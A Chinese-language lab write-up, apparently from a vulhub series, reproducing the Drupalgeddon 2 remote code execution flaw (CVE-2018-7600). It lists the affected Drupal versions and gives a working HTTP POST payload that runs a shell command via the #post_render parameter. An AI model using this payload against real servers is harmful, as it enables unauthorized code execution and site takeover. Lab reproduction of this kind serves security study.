 # Drupal Drupalgeddon 2远程执行代码漏洞（CVE-2018-7600）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->有回显--->getshell

### 0x01漏洞介绍

​			7.58之前的Drupal，8.3.9之前的8.x，8.4.6之前的8.4.x和8.5.1之前的8.5.x允许远程攻击者执行任意代码，因为该问题会影响具有默认或通用模块配置的多个子系统，包括表单API。。

##### 影响版本

```
Drupal < 7.58
Drupal < 8.3.9
Drupal < 8.4.6
Drupal < 8.5.1
```

### 0x02漏洞复现

#### payload：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

​			**启动环境后，访问`http://your-ip:8080/`，您将看到drupal安装页面。使用“标准”配置文件完成drupal安装。由于没有mysql环境，因此在安装时应选择sqlite数据库。**

​				**默认页面**![Drupal_Drupalgeddon_2RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_Drupalgeddon_2RCE_1.jpg)

​			**id被执行**

![Drupal_Drupalgeddon_2RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_Drupalgeddon_2RCE_2.jpg)



​			

